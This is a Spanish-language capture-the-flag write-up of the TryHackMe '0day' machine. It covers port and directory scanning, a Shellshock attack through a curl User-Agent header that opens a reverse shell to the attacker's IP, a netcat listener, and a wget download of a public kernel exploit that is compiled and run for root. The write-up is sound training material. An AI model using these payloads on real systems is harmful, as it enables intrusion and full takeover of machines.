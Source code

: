# 0day

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c7d93313-132b-4d1d-a439-891f724167a1)


***
- Source: https://tryhackme.com/room/0day
- OS: Linux
- Dificultad: Medium
- IP: No estática
- Temas: `ShellSock`, `Kernel Explotation`
***

- Realizamos un escaneo de puertos:

~~~bash
┌──(kali💀Dedsec)-[~]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.34.44
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-08 16:10 EST
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 16:10
Scanning 10.10.34.44 [65535 ports]
Discovered open port 22/tcp on 10.10.34.44
Discovered open port 80/tcp on 10.10.34.44
Completed SYN Stealth Scan at 16:10, 15.75s elapsed (65535 total ports)
Initiating Service scan at 16:10
Scanning 2 services on 10.10.34.44
Completed Service scan at 16:10, 6.47s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.34.44.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:10, 0.87s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:11, 0.81s elapsed
Nmap scan report for 10.10.34.44
Host is up, received user-set (0.20s latency).
Scanned at 2024-02-08 16:10:36 EST for 24s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.25 seconds
           Raw packets sent: 76938 (3.385MB) | Rcvd: 76187 (3.047MB)
~~~

- Vemos que tenemos un servicio http por el puerto 80, decidí enumerar directorios pues no vi nada relevante en la página:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm -w /usr/share/wordlists/dirb/big.txt -t 50 --add-slash --no-error -k               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess/           (Status: 403) [Size: 285]
/.htpasswd/           (Status: 403) [Size: 285]
/admin/               (Status: 200) [Size: 0]
/backup/              (Status: 200) [Size: 1767]
/cgi-bin/             (Status: 403) [Size: 283]
/cgi-bin//            (Status: 403) [Size: 283]
/css/                 (Status: 200) [Size: 924]
/icons/               (Status: 403) [Size: 281]
/img/                 (Status: 200) [Size: 930]
/js/                  (Status: 200) [Size: 923]
/secret/              (Status: 200) [Size: 109]
/server-status/       (Status: 403) [Size: 289]
/uploads/             (Status: 200) [Size: 0]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
~~~

- Tenemos un directorio `cgi-bin`.
- Si la versión es antigua y hay un binario, podremos aplicar explotación de `ShellShock` desde el lado del servidor.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --add-slash --no-error -k -x pl,sh,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              pl,sh,cgi
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test.cgi/            (Status: 200) [Size: 13]
~~~

- Tenemos un binario `test.cgi`.
- Podemos realizar una petición `GET` al binario, aplicando el ataque `shellshock`, a través de ciertos parámetros en el header.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ curl http://0day.thm/cgi-bin/test.cgi -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.2.60.167/4444 0>&1"'
~~~

- Nos ponemos en escucha y recibimos una conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.34.44] 44676
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ 
~~~

- Realizamos un tratamiento de TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***

<h3>PrivEsc:</h3>
- Enumerando un poco la máquina encontré algo curioso, una versión de Kernel bastante antigua:

~~~bash
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

- Conozco esta versión, podemos aplicar el [exploit de kernel 37292](https://www.exploit-db.com/exploits/37292)
- Lo transferimos desde nuestra máquina hosteando un server de Python.
- En nuestra máquina atacante:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ python3 -m http.server 80
~~~

- En la máquina victima:

~~~bash
www-data@ubuntu:/tmp$ wget http://10.2.60.167/exploit.c
~~~

- Si lo intentamos compilar, vemos que nos arroja un problema:

~~~bash
www-data@ubuntu:/tmp$ gcc exploit.c -o exploit.o
gcc: error trying to exec 'cc1': execvp: No such file or directory
~~~

- Para arreglar esto, exporté el valor de la `PATH` a uno por defecto:

~~~bash
export PATH=$PATH:/usr/bin:/bin:/usr/sbin:/sbin:/usr/lowww-   
~~~

- Y una vez hecho esto, ejecutamos el exploit compilado:

~~~bash
www-data@ubuntu:/tmp$ gcc exploit.c -o exploit.o
www-data@ubuntu:/tmp$ ./exploit.o 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
